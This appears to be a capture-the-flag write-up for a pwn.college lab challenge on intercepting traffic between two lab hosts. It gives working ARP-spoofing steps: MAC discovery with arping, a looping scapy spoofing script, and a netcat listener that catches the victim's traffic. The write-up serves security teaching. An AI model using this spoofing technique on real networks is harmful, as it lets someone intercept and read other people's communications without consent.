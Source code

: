 ```yaml
---
tags: ["Computer Networking"]
title: "Intercept"
description: Intercept
reference: https://pwn.college/intro-to-cybersecurity/intercepting-communication/
---
```


# Problem

Intercept traffic from a remote host. The remote host at 10.0.0.2 is communicating with the remote host at 10.0.0.3 on port 31337.

# Solution

1. Get your host mac address

```bash
root@ip-10-0-0-1:~# ip link
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN mode DEFAULT group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
3: eth0@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP mode DEFAULT group default qlen 1000
    link/ether ea:bb:1a:22:4a:a9 brd ff:ff:ff:ff:ff:ff link-netnsid 0
```

2. Get victim 10.0.0.2 mac address

```bash
root@ip-10-0-0-1:~# arping 10.0.0.2
ARPING 10.0.0.2
42 bytes from fa:1a:c5:ac:e6:cd (10.0.0.2): index=0 time=8.429 usec
42 bytes from fa:1a:c5:ac:e6:cd (10.0.0.2): index=1 time=9.269 usec
```

3. Add 10.0.0.3 to your ether device

```
root@ip-10-0-0-1:~# ip addr add 10.0.0.3/24 dev eth0
```

4. ARP Spoofing that you are 10.0.0.3

```python
root@ip-10-0-0-1:~#  cat -n arpspoof.py
     1	from scapy.all import ARP, sendp, Ether
     2	import time
     3	
     4	target_ip = "10.0.0.2"          # Victim IP
     5	spoof_ip = "10.0.0.3"           # IP you're pretending to be
     6	your_mac = "ea:bb:1a:22:4a:a9"  # Your machine’s MAC (optionally spoofed)
     7	target_mac = "fa:1a:c5:ac:e6:cd"
     8	
     9	packet = Ether(dst=target_mac , src=your_mac) / ARP(op=2, psrc=spoof_ip, pdst=target_ip, hwsrc=your_mac, hwdst=target_mac)
    10	
    11	while True:
    12	    sendp(packet, verbose=False)
    13	    time.sleep(2)
```

5. run TCP server that listen on 10.0.0.3:31337

```bash
root@ip-10-0-0-1:~# nc -l 10.0.0.3 31337
```
